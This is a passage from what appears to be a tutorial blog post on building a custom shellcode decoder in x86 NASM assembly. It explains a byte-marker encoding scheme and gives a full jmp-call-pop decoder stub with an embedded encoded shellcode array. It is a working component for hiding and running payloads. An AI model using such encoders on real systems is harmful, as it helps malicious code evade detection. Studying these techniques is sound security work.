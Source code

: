 ## Decoder

I'm not going to lie, figuring out how to decode this took me an entire day. First let's add an `0xaa` to the end of our shellcode so that we can add some control flow to our assembly and have it run the shell-code once we do a `CMP` operation with our current iteration. If we compare our current iteration with `0xaa` and the result is zero, then we know we're done decoding and we can run the shell-code.

Let's jump right into the assembly!

```nasm
global _start


section .text

_start:

	jmp short call_decoder	
	

decoder:
	pop esi
	lea edi, [esi]
	xor eax, eax
	xor ebx, ebx
	

sniffer:
	mov bl, byte [esi + eax]
	cmp bl, 0xaa
	jz shellcode
	mov bl, byte [esi + eax]
	cmp bl, 0xff
	jz shifter
	mov bl, byte [esi + eax]
	mov byte [edi], bl
	inc edi
	add al, 2
	jmp short sniffer
	
	
shifter:
	mov bl, byte [esi + eax + 1]
	shr bl, 1
	mov byte [edi], bl
	inc edi
	add al, 3
	jmp short sniffer
	
call_decoder:

	call decoder
	shellcode: db 0xff,0x62,0x0f,0xc0,0xde,0xff,0xa0,0x5a,0xff,0xd0,0x1b,0xff,0x5e,0x09,0xff,0x5e,0xed,0xff,0xe6,0x09,0xff,0xd0,0x93,0xff,0xd0,0x30,0xff,0x5e,0xc8,0xff,0xc4,0x26,0xff,0xd2,0x3e,0xff,0xdc,0xa3,0x89,0x14,0xe3,0x9a,0xff,0xa0,0x47,0x89,0xe0,0xe2,0xa2,0xff,0xa6,0xa5,0x89,0x8b,0xe1,0x9e,0xb0,0x67,0xff,0x16,0x8c,0xcd,0xb2,0x80,0x30,0xaa
```
